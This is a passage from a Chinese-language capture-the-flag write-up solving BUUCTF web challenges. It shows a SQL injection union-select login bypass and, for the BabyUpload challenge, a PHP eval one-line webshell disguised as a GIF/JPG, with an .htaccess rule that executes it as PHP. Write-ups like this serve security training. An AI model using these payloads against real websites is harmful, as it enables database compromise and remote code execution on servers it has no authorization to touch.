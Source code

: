 那么这里对`admin`进行`md5`处理,然后再填入密码的位置上:

```
name=1' union select 1,'admin','21232f297a57a5a743894a0e4a801fc3'#&pw=admin
返回:flag{96c9a844-2281-40a2-be8b-8900ba1ff455}
```



<br>

***

<br>

# [GXYCTF2019]BabyUpload

直接把一句话木马改成图片格式,上传成功:

```
GIF89a
<script language="php"> @eval($_POST['a']);</script>
/var/www/html/upload/5b17b3346cc2ba84ebe30b3bcaf6a1d9/scri.jpg succesfully uploaded!
```

接下来考虑怎么样利用

尝试访问一下`上传目录/index.php`,看看有没有现成可用的`php文件`,如果有的话可以考虑用`.user.ini`对一句话木马文件进行包含. 并没有找到

那么试试上传`.htaccess`

```
<FilesMatch "scri.jpg">
	SetHandler application/x-httpd-php
</FilesMatch>
```

应该是对文件类型进行了检测![image-20221018085753152](/image/buuctf-web/image-20221018085753152.png)

那么就抓包修改一下:

<img src="/images/buuctf-web/image-20221018085916924-166704781973576.png" alt="image-20221018085916924" style="zoom:67%;" />

这次上传成功

蚁剑连接后在根目录找到flag
